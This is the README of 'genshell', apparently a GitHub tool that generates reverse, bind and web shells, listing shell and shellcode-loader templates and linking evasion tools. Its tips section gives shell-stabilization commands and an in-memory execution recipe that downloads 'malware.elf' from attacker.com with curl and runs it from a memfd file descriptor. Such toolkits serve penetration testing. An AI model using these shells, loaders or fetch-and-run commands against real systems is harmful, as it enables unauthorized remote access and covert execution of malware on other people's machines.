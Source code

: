 # Shells

![Demo](./assets/demo.gif)

A collection of reverse, bind and web shells from all over the internet.

## Setup

a) With [pipx](https://github.com/pypa/pipx).

~~~ bash
pipx install git+https://github.com/dadevel/shells.git@main
~~~

b) With `pip`.

~~~ bash
pip install --user git+https://github.com/dadevel/shells.git@main
~~~

## Usage

Just run `genshell` and select one of the many templates.

Some advanced templates require manual steps:

- [TCP reverse shell in C++ as Windows DLL](./genshell/templates/reverse/connector/windows-cpp/)
- [TCP reverse shell with Cosmopolitan Libc](./genshell/templates/reverse/connector/cosmopolitan/)
- [TCP reverse shell in Go](./genshell/templates/reverse/connector/golang/)
- [Reverse shell listener with Tmux and Socat](./genshell/templates/reverse/listener/tmux-socat-multiplexer/)
- [Python ELF loader via `memfd_create()` on Linux](./genshell/templates/exec/memfd-create.py)
- [Python shellcode loader on Linux](./genshell/templates/exec/mmap-ctype.py)
- [Meterpreter loader for Windows](./genshell/templates/exec/windows-minildr/)

## Tips

Metasploit payloads like `windows/shell_reverse_tcp` are one of the few reverse shells for Windows that support interactive commands.

### Linux PTY

Spawn a PTY and stabilize your shell with Python.

~~~ bash
python -c 'import pty;pty.spawn("/bin/bash")'
# ctrl+z
echo "stty sane;stty rows $LINES cols $COLUMNS;export TERM=xterm;" | xclip -sel clip
stty raw -echo && fg
# paste clipboard and press enter
~~~

Alternatively spawn a PTY with `script`.

~~~ bash
script -q -c /bin/bash /dev/null
~~~

### Linux memfd_create()

Create file in memory with Python 3.8 or newer ([source](https://twitter.com/randomdude999_/status/1629875560401780736)).

~~~
$ python3 -c "from os import*;fork()or(setsid(),print(f'/proc/{getpid()}/fd/{memfd_create(sep)}'),kill(0,19))"
/proc/139856/fd/3
$ curl -o /proc/139856/fd/3 https://attacker.com/malware.elf
$ /proc/139856/fd/3
~~~

### Other interesting tools

- Linux in-memory execution techniques from [Strategies to bypass Read-Only, No-Exec, and Distroless Environments - DEF CON 31](http://web.archive.org/web/20230814075243/https://media.defcon.org/DEF%20CON%2031/DEF%20CON%2031%20presentations/Carlos%20Polop%20Yago%20Gutierrez%20-%20Exploring%20Linux%20Memory%20Manipulation%20for%20Stealth%20and%20Evasion%20Strategies%20to%20bypass%20Read-Only%20No-Exec%20and%20Distroless%20Environments.pdf)
    - [DistrolessRCE](https://github.com/carlospolop/DistrolessRCE)
    - [memdlopen](https://github.com/arget13/memdlopen)
    - [memexec](https://github.com/arget13/memexec)
    - [ddexec](https://github.com/arget13/DDexec)
- [Kraken](https://github.com/kraken-ng/kraken), multi-language webshell
- [xc](https://github.com/xct/xc), reverse shell for Linux and Windows written in Go
